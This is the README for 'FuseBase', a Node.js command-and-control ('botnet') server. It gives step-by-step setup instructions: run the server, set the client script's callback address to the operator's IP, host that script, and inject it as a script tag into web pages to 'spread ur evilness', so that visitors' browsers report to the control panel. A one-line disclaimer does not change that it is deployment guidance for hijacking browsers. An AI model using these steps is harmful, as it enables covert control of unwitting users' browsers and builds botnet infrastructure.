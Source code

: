 # FuseBase
A C&C ~botnet~ server made in nodejs

# NOTE
I don't take any responsibility for what you will do with this software/code.
Remember that running malicious code on someone's machine without their knowledge is illegal.

# Documentation / Build Status
[![Docs Status](https://lukas2005.github.io/FuseBase/badge.svg)](https://lukas2005.github.io/FuseBase/)
[![Build Status](https://travis-ci.org/lukas2005/FuseBase.svg?branch=master)](https://travis-ci.org/lukas2005/FuseBase)

# Prerequisities
1. Latest Nodejs

# How to:
## Step 1: Fork, Clone & Install
1. Fork this repo (it will be handy later, altho you can skip this if you have a place to host js files)
2. Clone/Download the repo to your PC
3. Run `npm install` in the root

## Step 2: Run and JS inclusion
1. Run `npm start` in the root dir
2. Edit `src/client/client.js` with any text editor and change the `nodeJsIp` const to `http://yourip:3000` (you might wanna get a DDNS)
3. (Here is where the hosting part comes in) grab a link to `src/client/client.js` and include it wherever u wanna spread ur evilness (or goodness depending on what ur doing) AKA normal `<script src="link"></script>` anywhere in the html.
4. Get into the W.I.P Control Panel `yourip:3000`

## Step 3: Use existing modules or write your own:
See the [Documentation](https://lukas2005.github.io/FuseBase/)
